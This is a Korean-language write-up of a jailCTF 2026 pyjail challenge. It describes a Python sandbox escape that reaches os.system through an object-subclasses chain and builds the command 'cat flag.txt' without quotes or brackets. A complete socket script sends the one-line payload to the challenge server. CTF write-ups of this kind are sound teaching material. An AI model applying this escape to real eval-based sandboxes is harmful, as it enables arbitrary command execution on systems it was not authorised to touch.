

# the quasar files

## 문제 개요

- 대회: jailCTF 2026
- 문제명: the quasar files
- 분야: pyjail
- 점수: 228
- 출제자: `@quasarobizzaro`
- 접속: `nc challs.pyjail.club 17761`
- Flag: `jail{████_████_██_██████_██_████_███████_██_█████_███_██████}`

문제 설명은 다음과 같다.

```text
people keep telling me im torturing people via pyjail
we can't let the public know what i've done so i redacted all of the \w-ords
```

제출 캡처:



## 제약 확인

접속하면 배너가 `THE ██████ FILES`로 나오고, 입력은 `eval`로 실행된다. 트레이스백을 보면 대략 다음 형태다.

```python
eval(code, {"__builtins__": {}}, {"__builtins__": {}})
```

추가로 입력에 특정 문자가 있으면 assert로 막는다.

| 금지 문자 | 에러 메시지 |
|---|---|
| `'` | `😠😠😠, ' !!!` |
| `"` | `😠😠😠, " !!!` |
| `[` | `😡😡😡, [ !!!` |
| `]` | `😠😠😠, ] !!!` |

즉 문자열 리터럴과 인덱싱 대괄호를 쓸 수 없고, builtins도 비어 있다.  
다만 식별자·숫자·점·괄호·중괄호는 허용된다.  
참고로 Python `eval` 결과의 stdout 쪽 `\w`는 █/▆로 마스킹되지만, `os.system()`이 찍는 출력은 마스킹을 우회한다.

## 풀이

### 1. builtins 없이 `os.system` 얻기

빈 builtins에서는 클래식한 subclasses 체인으로 모듈 globals에 접근한다.

```python
().__class__.__base__.__subclasses__()
```

여기 있는 클래스 중 `__init__.__globals__`에 `system`이 있는 것(`os._wrap_close`)을 고르면 된다.  
대괄호가 금지이므로 `__getitem__`과 generator의 `__next__`를 쓴다.

```python
(
    c.__init__.__globals__
    for c in ().__class__.__base__.__subclasses__()
    if c.__init__.__class__ == (lambda: 1).__class__
    and system in c.__init__.__globals__
).__next__()
```

### 2. 따옴표 없이 문자열 조립

문자열 리터럴이 막혀 있으므로 `__name__` / `__doc__`에서 글자를 뽑아 붙인다.

| 소스 | 값 | 쓰는 글자 |
|---|---|---|
| `().__class__.__name__` | `tuple` | `t`, `p`, `l`, `e` |
| `().__class__.__base__.__name__` | `object` | `o`, `c` |
| `(1.).__class__.__name__` | `float` | `f`, `l`, `a` |
| `(x for x in ()).__class__.__name__` | `generator` | `g` |
| `str` / `type` / `method-wrapper` | — | `s`, `y`, `m`, `w`, `r` |
| `(x for x in ()).__next__.__name__` | `__next__` | `x` |
| `(1.).__doc__` | float docstring | 공백, `.` |

이걸로 `system`, `cat flag.txt`를 만든다.

```text
system = "system"
cmd    = "cat" + " " + "flag" + "." + "txt"
```

cwd를 `ls`로 보면 `flag.txt`와 `run`이 있다.

### 3. 실행

최종 페이로드는 한 줄 expression으로 `os.system("cat flag.txt")`를 호출한다.  
`system()` 출력은 레드액션을 타지 않아 flag가 그대로 나온다.

```python
import socket

EXPR = (
    r"(lambda T,O,F,G,S,Y,M,I,D,U,NX,doc:(lambda ch:(lambda system,cmd:"
    r"(lambda g:g.__getitem__(system)(cmd))"
    r"((c.__init__.__globals__ for c in ().__class__.__base__.__subclasses__()"
    r" if c.__init__.__class__==(lambda:1).__class__"
    r" and system in c.__init__.__globals__).__next__()))"
    r"(ch(S,0)+ch(Y,1)+ch(S,0)+ch(T,0)+ch(T,4)+ch(M,0),"
    r"ch(O,4)+ch(F,3)+ch(T,0)+doc.__getitem__(7)"
    r"+ch(F,0)+ch(F,1)+ch(F,3)+ch(G,0)+doc.__getitem__(66)"
    r"+ch(T,0)+ch(NX,4)+ch(T,0)))"
    r"(lambda s,i:s.__getitem__(i)))"
    r"(().__class__.__name__,().__class__.__base__.__name__,"
    r"(1.).__class__.__name__,(x for x in ()).__class__.__name__,"
    r"().__class__.__name__.__class__.__name__,().__class__.__class__.__name__,"
    r"().__init__.__class__.__name__,(1).__class__.__name__,"
    r"{}.__class__.__name__,().__class__.__base__.__subclasses__.__name__,"
    r"(x for x in ()).__next__.__name__,(1.).__doc__)"
)

s = socket.create_connection(("challs.pyjail.club", 17761), timeout=10)
s.settimeout(5)
buf = b""
while b"> " not in buf:
    buf += s.recv(4096)
s.sendall(EXPR.encode() + b"\n")
out = b""
while True:
    try:
        chunk = s.recv(4096)
        if not chunk:
            break
        out += chunk
    except Exception:
        break
s.close()
print(out.decode())
```

재현 스크립트는 `solve/solve.py`에 있다.

## Flag

```text
jail{████_████_██_██████_██_████_███████_██_█████_███_██████}
```

플래그 문자열 자체가 █ 블록 문자로 구성되어 있다. 문제 테마(redacted `\w`-ords)와 맞물린 의도된 형태다.
